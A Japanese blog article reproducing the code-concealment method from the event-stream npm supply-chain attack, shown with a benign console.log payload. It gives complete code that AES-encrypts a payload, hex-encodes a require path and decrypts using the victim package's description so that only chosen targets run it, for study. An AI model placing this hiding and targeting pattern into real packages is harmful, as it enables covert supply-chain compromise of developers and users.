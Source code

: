 # 概要

本記事は直近で起きた npm パッケージ event-stream への攻撃のうち、任意のコードを忍ばせる手法の追試です。

⚠️ 今回は攻撃者がパッケージのメンテナであったために発生したことであり、この記事を読んで誰でも攻撃できるようになるわけではありません。
⚠️ 念のためですが、悪用しないようにお願いします。

# コード

https://github.com/kik4/npm-evil-code-injection

# ポイント

今回の攻撃では minify したコードにのみ攻撃コードが挿入されていました。ただ minify しただけでなく、一見してそれとわからないようにコードが隠蔽されていました。その手法を実際にやってみます。
この記事で確かめる隠蔽手法は次の３つです。

1. 攻撃コードの暗号化
2. 攻撃実行コードの require パスの隠蔽
3. package.json の description を見て攻撃対象を限定

バージョン操作やパッケージの publish などは取り扱いません。

# 攻撃手順

今回題材とするコードは次の通りです。

```ts
// 正常なコード
export default () => console.log("This is good code.");
```

```ts
// 攻撃コード
console.log("This is evil code.");
```

上記の正常なコードに攻撃コードを忍ばせます。そしてこのパッケージを実行する npm パッケージの description が`run evil code`の時だけ攻撃コードが実行されるようにしていきます。

## 1. 攻撃コードの暗号化 & 3. description で攻撃対象を限定

まず攻撃コードを AES 暗号化します。暗号化は node コマンドで REPL を起動させてちゃっちゃとやってしまいます。
暗号化する文字列は攻撃コードである`console.log("This is evil code.")`ですね。
パスワードは description で起動させる`run evil code`です。次の項で書きますが復号化時に実行しているパッケージの description を拾って与えることで、攻撃対象を限定します。

```js
var code = 'console.log("This is evil code.")';
var password = "run evil code";
var cipher = require("crypto").createCipher("aes-256-cbc", password);
var encoded = cipher.update(code, "utf8", "hex") + cipher.final("hex");
encoded;
```

結果は`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`です。無事に元の攻撃コードがわからなくなりました。

## 2. 攻撃実行コードの require パスの隠蔽

### index.ts

正常なコードを書いたファイルを index.ts。攻撃コードを忍ばせ、攻撃を実行するコードを書いたファイルを data.ts とします。
まずは index.ts から data.ts を require します。ただしトランスパイルされるので実際のファイル名は`./data.js`ですね。これの default の実行が攻撃コードの実行になります。

```ts
export default () => {
  require("./data.js").default();
  console.log("This is good code.");
};
```

今回はこの require の中の文字列が hex エンコードされていました。なので`./data.js`もエンコードしましょう。
ここでも node でちゃっとやってしまいます。

```js
Buffer.from("./data.js").toString("hex");
// '2e2f646174612e6a73'
```

結果は`2e2f646174612e6a73`になりました。これを require の中にデコード処理を入れて書き換えます。

```ts
export default () => {
  require(Buffer.from("2e2f646174612e6a73", "hex").toString()).default();
  console.log("This is good code.");
};
```

一見して何のファイルが読み込まれているかわからなくなりましたね。

### data.ts

次に data.ts の用意です。この中で暗号化したコードの複合と実行を行います。
暗号化された攻撃コードは`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`。
これを実行パッケージの package.json の description を格納している`process.env.npm_package_description`で復号し、それを実行してやります。

```ts
import * as crypto from "crypto";

// _compile()の定義が無かったので追加
declare global {
  interface NodeModule {
    _compile(arg1: string, arg2: string): any;
  }
}

export default () => {
  // 攻撃コード
  const data =
    "cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f";
  // 復号器
  const decipher = crypto.createDecipher(
    "aes256",
    process.env.npm_package_description || ""
  );

  // パスワードが違うとこけるのでキャッチ
  try {
    // 復号
    const payload =
      decipher.update(data, "hex", "utf8") + decipher.final("utf8");
    // 実行
    module._compile(payload, "");
  } catch {}
};
```

以上で攻撃コードの仕込みは完了です。
一度 build して出力ディレクトリの dist を生成しておきます。これが実際に実行される js ファイルです。

# 攻撃を受けてみる

攻撃される側のパッケージを用意します。攻撃を仕込んだパッケージは公開してもしょうがないので今回はローカルインポートにします。
package.json では攻撃コードが実行されるように description を`run evil code`にしておきます。

```json
{
  // 略
  "description": "run evil code",
  // 略
  "dependencies": {
    "library": "../library" // ローカルインポート
    // 略
  }
}
```

実行コードはこんな感じ。

```ts
import library from "library";
library();
```

これを実行した出力結果は以下の通りです。

```
// 期待する結果
// This is good code.

// 実際の結果
This is evil code.
This is good code.
```

無事に攻撃コードが実行されました！
description を書き換えると`This is evil code.`が出てきません。ちゃんと攻撃対象を絞れました。

# 参考

[2018/11/27 に判明した npm パッケージ乗っ取りについて](https://qiita.com/azs/items/b15bc456bee3a7892950)
